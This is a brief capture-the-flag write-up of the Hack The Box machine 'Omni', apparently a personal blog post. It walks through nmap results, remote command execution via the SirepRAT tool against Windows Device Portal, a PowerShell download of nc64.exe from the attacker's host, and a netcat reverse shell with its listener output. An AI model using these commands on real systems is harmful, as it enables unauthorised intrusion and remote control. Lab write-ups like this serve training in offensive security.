 ```yaml
---
title: "Omni from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# Omni from HTB

`nmap` gave this:
```bash
PORT      STATE SERVICE  VERSION
135/tcp   open  msrpc    Microsoft Windows RPC
5985/tcp  open  upnp     Microsoft IIS httpd
8080/tcp  open  upnp     Microsoft IIS httpd
|_http-title: Site doesn't have a title.
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Windows Device Portal
|_http-server-header: Microsoft-HTTPAPI/2.0
29817/tcp open  unknown
29819/tcp open  arcserve ARCserve Discovery
29820/tcp open  unknown
```
searching `Windows Device Portala exploit` i found this `github` repository [https://github.com/SafeBreach-Labs/SirepRAT]
```bash
python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --cmd "C:\Windows\System32\hostname.exe" --return_output --v
---------

---------
---------
omni

---------
---------

---------
```
This told us what user we are on machine and also that we can execute commands this way.
found a way to execute commands
```
python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --cmd "C:\Windows\System32\cmd.exe" --args "/c hostname" --return_output --v
---------

---------
---------
omni

---------
---------

---------
```
there is no `netcat` on machine so download it from github [https://github.com/int0x33/nc.exe/blob/master/nc64.exe] and upload it to machine
```bash
python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell IWR -Uri http://10.10.16.11:80/nc64.exe -Outfile c:\nc64.exe" --return_output --v
---------

---------
<HResultResult | type: 1, payload length: 4, HResult: 0x0>
```
now to get shell start `netcat` and on windows machine send this payload
```bash
python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --cmd "C:\Windows\System32\cmd.exe" --args "/c c:\nc64.exe -e powershell 10.10.16.11 4444" --return_output --v
```
I got connection
```bash
rlwrap nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.16.11] from (UNKNOWN) [10.10.10.204] 49671
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\windows\system32>
```
I can't do more i don't know a thing about Windows exploitation T_T
